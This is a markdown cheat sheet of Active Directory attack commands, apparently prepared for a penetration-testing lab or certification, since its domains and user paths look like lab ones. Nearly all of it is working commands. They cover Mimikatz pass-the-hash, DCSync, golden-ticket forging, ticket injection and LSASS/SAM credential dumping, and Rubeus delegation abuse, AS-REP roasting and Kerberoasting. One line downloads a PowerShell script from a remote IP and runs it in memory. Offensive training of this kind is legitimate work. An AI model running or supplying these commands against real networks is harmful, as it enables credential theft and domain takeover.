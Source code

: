 ### Mimikatz Pass-the-hash**

`Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.funcorp.local /ntlm:6abb7b261387f51b8e58261aa310e245 /run:powershell.exe"'`

### Mimikatz Dump hash user specific**

```
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:AMAZECORP.local /user:PSPEARS"'
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:fortress.corp /all"'
```

### Mimikatz use in memory**

`IEX (New-Object Net.WebClient).DownloadString('http://192.168.240.201/Invoke-Mimikatz.ps1');Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'`

### Mimikatz Ticket Dourado**

```

Sids: Sid Domain Attacked (Get-NetGroupMember -GroupName "Domain Admins" -domanin $domain attcked)

Sid: Did Domain Local
krbtg: hash domain local

Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:us.funcorp.local /sid:S-1-5-21-3965405831-1015596948-2589850225 /sids:S-1-5-21-493355955-4215530352-779396340-519 /krbtgt:c6d34958b79e829bede03fcb79cd1f5a /ticket:C:\AD\krbtgt_tkt.kirbi"'

```

### Mimikatz Inject Ticket**

`Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\studentuser\Desktop\tools\tickets\FORTRESS.CORP.kirbi"'`

### Mimikatz Dump hash loca**l

```
Privilege elevate with SYSTEM

Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'

Not Elevate

Invoke-Mimikatz -Command '"privilege::debug""sekurlsa::logonpasswords" "lsadump::sam" "exit"'

```

### Mimikatz dump hashs Domain**

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
Invoke-Mimikatz -Command '"lsadump::sam /patch"'
```

### Check a  valid msds-allowedtodelegateto**

`Get-DomainUser patsy -Properties samaccountname,msds-allowedtodelegateto | Select -Expand msds-allowedtodelegateto`

### Rubeus Impersonate Ticket Constrained Delegation to administrator**

```
rc4: hash account user
Impersonateuser: account will be impersonate
altservice: service will be impersonate

TCP 5985 = HTTP and  TCP 5986 = HTTPS

.\Rubeus.exe s4u /user:dbservice /rc4:6f9e22a64970f32bd0d86fddadc8b8b5 /impersonateuser:administrator /msdsspn:"TIME/UFC-DC1.US.FUNCORP.LOCAL" /altservice:cifs /ptt

.\Rubeus.exe s4u /user:dbservice /rc4:6f9e22a64970f32bd0d86fddadc8b8b5 /impersonateuser:administrator /msdsspn:"TIME/UFC-DC1.US.FUNCORP.LOCAL" /altservice:http /ptt

https://github.com/GhostPack/Rubeus
```

### Rubeus check accounts with flag "do not require kerberos preauthentication"**

```
Rubeus.exe asreproast /format:hashcat /outfile:C:\Temp\hashes.txt

Rubeus.exe asreproast /creduser:DOMAIN.FQDN\USER /credpassword:PASSWORD [/user:USER] [/domain:DOMAIN]

.\Rubeus.exe asreproast /domain:techvirtua.local /dc:192.168.2.201 /creduser:techvirtua.local\thiago.oliveira /credpassword:BadPass123 /format:hashcat

```

### Usage mimikatz.exe**

```
.\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit

Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'

Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'

```

### check account that can be used to kerberoast**

`get-adobject | Where-Object {$_.serviceprincipalname -ne $null -and $_.distinguishedname -like "*CN=Users*" -and $_.cn -ne "krbtgt"}`

### Solicit ticket TGS**

```
Add-Type -AssemblyName System.IdentityModel

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HOST/fortress-secure.fortress.corp"

```

###  Export ticket with mimikatz**
`Invoke-Mimikatz -Command '"kerberos::list /export"'`

### Convert ticket Kirbi**

`python.exe .\kirbi2john.py .\3-40a10000-pastudent138@TIME~UFC-DB1.US.FUNCORP.LOCAL-US.FUNCORP.LOCAL.kirbi`

### Search kerberos pre auth disabled**

```
PS C:\ad> . .\PowerView_dev.ps1
PS C:\ad> Get-DomainUser -PreauthNotRequired -Verbose
```

### Type Services**

![services.png](services.png)
